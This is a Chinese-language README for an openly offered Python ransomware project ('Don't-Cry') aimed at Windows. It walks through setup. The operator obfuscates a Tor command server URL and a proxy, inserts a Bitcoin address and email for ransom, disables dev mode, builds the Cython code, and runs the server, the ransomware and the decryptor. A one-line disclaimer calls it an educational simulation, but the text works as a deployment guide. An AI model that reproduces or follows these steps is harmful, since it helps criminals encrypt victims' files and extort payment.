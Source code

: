 # Don't-Cry 勒索软件
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](https://raw.githubusercontent.com/memecoder12345678/DCry-Ransomware/main/imgs/DCRY.png)
使用 Python 编写的勒索软件 💀💀💀
## 使用方法
* 打开 [`DCry.py`](main/src/DCry.py) 文件。
* 使用 `dx42` 函数替换 `YOUR_URL` 变量，方法如下：
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  （先使用 `edx42` 模块中的 `ex42` 函数对你的 URL 进行编码。）
  
   示例：
    ```python
    encoded_url = ex42(b"https://your-tor-server.onion")
    YOUR_URL = dx42(encoded_url).decode()
  ```
* 同样用你的编码代理字符串替换 `YOUR_PROXY` 变量：
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* 用你的比特币地址字符串替换 `YOUR_BITCOIN_ADDRESS`。
* 用你的邮箱地址字符串替换 `YOUR_EMAIL_ADDRESS`。
* 将 `dev_mode` 设置为 `False` 来关闭开发模式。
* 使用以下命令安装所需依赖：
  ```bash
  pip install -r requirements.txt
  ```
* 使用以下命令构建 Cython 代码：
  ```bash
  python src/setup.py build_ext --inplace
  ```
* 使用以下命令运行服务器：
  ```bash
  python src/server.py
  ```
* 使用以下命令运行勒索软件：
  ```bash
  python src/DCRY.py
  ```
* 使用以下命令运行解密程序：
  ```bash
  python src/decryptor.py
  ```
## 警告
> \[!WARNING]
> 此项目仅为教育目的的勒索软件模拟。
## 许可证
* 本项目依据 [Apache License 2.0](./LICENSE) 许可协议发布。
